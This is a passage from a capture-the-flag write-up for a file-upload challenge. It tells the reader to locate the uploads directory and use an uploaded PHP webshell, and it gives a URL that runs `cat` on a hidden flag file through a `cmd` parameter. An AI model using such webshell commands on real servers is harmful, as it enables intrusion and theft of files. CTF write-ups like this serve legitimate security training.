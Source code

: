 We need to find the location where files are uploaded.
The first thing you should do is guess the usual upload directory names or search them online.

Go to `/uploads/`, access your webshell and read the flag in `flag.php` a directory lower:
```
http://chal.chronossec.site:30240/uploads/25a452927110e39a345a2511c57647f2.php?cmd=cat%20../hidden_secret_flag.php
```

<img src="./solve/list.jpg" width="1000">

<img src="./solve/flag.jpg" width="1000">

<br>

> Flag: `CSCTF{flag-that-is-generated-every-5-minutes}`

